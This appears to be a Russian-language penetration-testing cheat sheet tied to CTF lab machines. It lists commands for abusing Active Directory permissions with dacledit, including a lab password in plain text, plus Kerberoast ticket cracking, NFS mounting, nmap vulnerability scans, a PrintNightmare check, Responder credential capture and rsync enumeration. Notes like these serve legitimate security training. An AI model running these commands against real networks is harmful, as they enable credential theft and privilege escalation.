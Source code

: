 (синхронизация по времени с сервером для крберерос)



# dacledit 

dacledit.py -action 'write' -rights 'WriteMembers' -principal 'm.lovegod' -target 'Network Audit group' 'absolute.htb'/'m.lovegod:AbsoluteLDAP2022!' -k -dc-ip 10.10.11.181

# Для взлома билета удаленной (SPN) службы используется скрипт tgsrepcrack.py из репозитория Kerberoast. 

python tgsrepcrack.py wordlist.txt 1-40a10000-Bob@MSSQLSERVER~SQL-Server.testdomain.com~1433-TESTDOMAIN.COM.kirbi

# Доступные диски для монтирования mountd 2049

showmount -e 10.10.149.120 
showmount показывает нам какие файловые системы доступны для монтирования
$ mkdir smb
$ sudo mount -t nfs -o vers=2 10.10.149.120:/users ./smb
$ sudo -i




# скрипты для сканирования уязвимостей
script vuln -p 80 ip скрипты уязвимостей
nmap [host] --script vuln -sV
https://github.com/SkillfactoryCoding/HACKER-OS-nmap.vulners
https://github.com/SkillfactoryCoding/HACKER-OS-vulscan

printnightMare (135 port)
impacket-rpcdump @10.10.211.217 | egrep 'MS-RPRN|MS-PAR'

# Responder (слушаем интерфейс)

sudo responder -I tun0 -wdF

sudo tcpdump -i wlan0 icmp


# rsync

rsync --list-only 10.129.228.37::

rsync --list-only 10.129.228.37::public


rsync 10.129.228.37::public/flag.txt flag.txt



